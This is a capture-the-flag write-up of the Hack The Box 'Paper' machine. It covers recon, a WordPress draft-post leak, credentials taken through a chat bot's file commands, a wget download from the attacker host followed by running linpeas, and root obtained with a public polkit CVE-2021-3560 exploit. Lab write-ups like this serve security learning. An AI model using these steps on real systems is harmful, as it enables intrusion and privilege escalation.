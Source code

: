 ## Using nmap, scan this machine. What ports are open?

```bash
┌──(defalt@kali)-[~/Documents/htb/paper]
└─$ nmap -sC -sV -o nmap 10.10.11.143 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-10 02:46 PDT
Nmap scan report for 10.10.11.143
Host is up (0.15s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:05:ea:50:56:a6:00:cb:1c:9c:93:df:5f:83:e0:64 (RSA)
|   256 58:8c:82:1c:c6:63:2a:83:87:5c:2f:2b:4f:4d:c3:79 (ECDSA)
|_  256 31:78:af:d1:3b:c4:2e:9d:60:4e:eb:5d:03:ec:a0:22 (ED25519)
80/tcp  open  http     Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
|_http-title: HTTP Server Test Page powered by CentOS
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
443/tcp open  ssl/http Apache httpd 2.4.37 ((centos) OpenSSL/1.1.1k mod_fcgid/2.3.9)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-generator: HTML Tidy for HTML5 for Linux version 5.7.28
|_http-title: HTTP Server Test Page powered by CentOS
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=Unspecified/countryName=US
| Subject Alternative Name: DNS:localhost.localdomain
| Not valid before: 2021-07-03T08:52:34
|_Not valid after:  2022-07-08T10:32:34
|_http-server-header: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
| tls-alpn: 
|_  http/1.1
|_ssl-date: TLS randomness does not represent time

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.97 seconds
```
Nmap result shows that SSH , SSL and Apache are available on their default ports. Let's take look at webpage. Maybe we can find something.

## Website port 80
![](website.png)

## Looking for X-backend
I didn't find anything useful on website.Let's try to find backend server. For that we using curl with location flag (-L) for see which route our website take.
```bash
┌──(defalt@kali)-[~/Documents/htb/paper]
└─$ curl -I  10.10.11.143 
HTTP/1.1 403 Forbidden
Date: Sun, 10 Apr 2022 10:12:04 GMT
Server: Apache/2.4.37 (centos) OpenSSL/1.1.1k mod_fcgid/2.3.9
X-Backend-Server: office.paper
Last-Modified: Sun, 27 Jun 2021 23:47:13 GMT
ETag: "30c0b-5c5c7fdeec240"
Accept-Ranges: bytes
Content-Length: 199691
Content-Type: text/html; charset=UTF-8
```
Looks like we got our self a winner. We found our backend server **office.paper**. Let's add it **/etc/hosts** file.

## Blunder Tiffin Paper Company
When we got to **office.paper** we can see this website.

![](office-paper.png)

When we scroll down a bit we can see a comment(hint) on one of post.

![](comment.png)

## Analyze with Wappalyzer
![](wappa.jpg)

Wappalyzer reveals website running on wordpress 5.2.3. Let's try to run wpscan.

```bash
+] WordPress version 5.2.3 identified (Insecure, released on 2019-09-05).
 | Found By: Rss Generator (Passive Detection)
 |  - http://office.paper/index.php/feed/, <generator>https://wordpress.org/?v=5.2.3</generator>
 |  - http://office.paper/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.2.3</generator>
```
Wpscan results shows this version is vurnerable. So let's go to google and search about this after while I found this site.

https://wpscan.com/vulnerability/3413b879-785f-4c9f-aa8a-5a4a1d5e0ba2

So it has a vulnerability could allow an unauthenticated user to view private or draft posts due to an issue within WP_Query. Let's try it.

![](vurnablilty%20wordpress.png)

After reading a draft we can see secret registeration url and another server called **chat.office.paper**. Let's add it to **/etc/hosts/** and click the link. When we click the link we can see new user registeration site.

![](register.png)

After register and log with your new account. If you surf the webpage You will find a general Chat .When you scroll up You will find that **DwightKSchrute** is the admin and he added a Bot named **Recyclops** .You will also find out that You cannot Type in the General Chat But you can Direct Message the **Bot Recyclops**. When I Type **Recyclops Help** it gives me set of instructions.

![](bot.png)

The Instructions state that we can ask the Recyclops Bot A file , to List files and many more. Which was a Interesting! , So I tried to get User.txt Using The Recyclops Bot But was Unsuccessful Because It Says Access denied. 

![](access%20denied.png)

After messing around I reach the jackpot. When you got **hubot dir** you can see some of interesting files.

![](hubot.png)

When you try to look into **.env** file. you can get the password to **dwight** account.

![](password.png)

## Login to user **dwight**
When we log into **dwight** acc we can get a user flag.
```bash
┌──(defalt@kali)-[~/Documents/htb/paper]
└─$ sudo ssh dwight@10.10.11.143
[sudo] password for defalt: 
The authenticity of host '10.10.11.143 (10.10.11.143)' can't be established.
ED25519 key fingerprint is SHA256:9utZz963ewD/13oc9IYzRXf6sUEX4xOe/iUaMPTFInQ.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.143' (ED25519) to the list of known hosts.
dwight@10.10.11.143's password: 
Activate the web console with: systemctl enable --now cockpit.socket

Last failed login: Sun Apr 10 06:45:11 EDT 2022 from 10.10.15.15 on ssh:notty
There was 1 failed login attempt since the last successful login.
Last login: Sun Apr 10 06:45:08 2022 from 10.10.14.57
[dwight@paper ~]$ ls -la
total 68
drwx------  11 dwight dwight 4096 Apr 10 06:47 .
drwxr-xr-x.  3 root   root     20 Apr 10 06:42 ..
lrwxrwxrwx   1 dwight dwight    9 Jul  3  2021 .bash_history -> /dev/null
-rw-r--r--   1 dwight dwight   18 May 10  2019 .bash_logout
-rw-r--r--   1 dwight dwight  141 May 10  2019 .bash_profile
-rw-r--r--   1 dwight dwight  358 Jul  3  2021 .bashrc
-rwxr-xr-x   1 dwight dwight 1174 Sep 16  2021 bot_restart.sh
drwx------   5 dwight dwight   56 Jul  3  2021 .config
-rw-------   1 dwight dwight    9 Apr  9 23:08 .dbshell
-rw-------   1 dwight dwight   16 Jul  3  2021 .esd_auth
-rw-rw-r--   1 dwight dwight 5512 Apr  9 23:32 exploit.c
-rwxrwxr-x   1 dwight dwight 9617 Apr  9 23:35 file.sh
drwx------   3 dwight dwight   69 Apr  9 23:08 .gnupg
drwx------   8 dwight dwight 4096 Sep 16  2021 hubot
-rw-rw-r--   1 dwight dwight   18 Sep 16  2021 .hubot_history
drwx------   3 dwight dwight   19 Jul  3  2021 .local
drwxr-xr-x   4 dwight dwight   39 Jul  3  2021 .mozilla
drwxrwxr-x   5 dwight dwight   83 Jul  3  2021 .npm
-rw-------   1 dwight dwight    7 Apr 10 06:47 .python_history
drwxr-xr-x   4 dwight dwight   32 Jul  3  2021 sales
drwx------   2 dwight dwight    6 Sep 16  2021 .ssh
-r--------   1 dwight dwight   33 Apr  9 22:47 user.txt
drwxr-xr-x   2 dwight dwight   24 Sep 16  2021 .vim
```
## Let's run linpeas to see what is our machine upto

First start a web server on our machine. **python3 -m http.server** and download it to victims machine.

```bash
[dwight@paper ~]$ wget 10.10.14.53:8000/linpeas.sh
--2022-04-10 06:58:08--  http://10.10.14.53:8000/linpeas.sh
Connecting to 10.10.14.53:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 134168 (131K) [text/x-sh]
Saving to: ‘linpeas.sh.1’

linpeas.sh.1            100%[=============================>] 131.02K   266KB/s    in 0.5s    

2022-04-10 06:58:09 (266 KB/s) - ‘linpeas.sh.1’ saved [134168/134168]

[dwight@paper ~]$ bash linpeas.sh
````
* Linpeas results :

![](polkit%20linpeas.png)

Our linpeas result shows this machine vureable to polkit exploit(CVE-2021-3560).

## Polkit exploit

I'm using this script to exploit our machine.

https://raw.githubusercontent.com/Almorabea/Polkit-exploit/main/CVE-2021-3560.py

After few tries I got the root access. GG!

```bash
[dwight@paper ~]$ python3 poc.py
**************
Exploit: Privilege escalation with polkit - CVE-2021-3560
Exploit code written by Ahmad Almorabea @almorabea
Original exploit author: Kevin Backhouse 
For more details check this out: https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/
**************
[+] Starting the Exploit 
[+] User Created with the name of ahmed
[+] Timed out at: 0.006675333958235134
[+] Timed out at: 0.008788664949069335
[+] Exploit Completed, Your new user is 'Ahmed' just log into it like, 'su ahmed', and then 'sudo su' to root 

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

bash: cannot set terminal process group (5125): Inappropriate ioctl for device
bash: no job control in this shell
[root@paper dwight]#
[root@paper ~]# whoami
root
```
Thx for reading !! Have a nice day.